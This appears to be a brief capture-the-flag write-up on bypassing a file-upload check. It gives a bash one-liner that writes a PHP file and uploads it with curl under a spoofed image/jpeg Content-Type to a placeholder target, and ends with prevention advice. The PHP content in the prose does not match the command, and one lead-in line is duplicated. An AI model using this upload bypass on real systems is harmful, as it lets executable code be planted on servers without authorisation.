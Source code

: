 "# File Upload Issue

When you upload a file, there is a risk. A PHP file might be uploaded pretending to be an image. The attack involves making a PHP script (/tmp/bad.php) with this content <?php echo "This is a poor upload check..." ?>. To get past security, this file is uploaded using curl with the 'Content-Type' header set as 'image/jpeg'. The command for this is:
Here's the command that accomplishes this:
```bash
echo '<?php echo "The Gang à Rossa!" ?>' > /tmp/bad.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/bad.php;type=image/jpeg" "http://x.x.x.x/index.php?page=upload" | grep flag
```

## Prevention

Enhance security by not solely trusting 'Content-Type' headers, renaming files, restricting file types, and checking file sizes and permissions.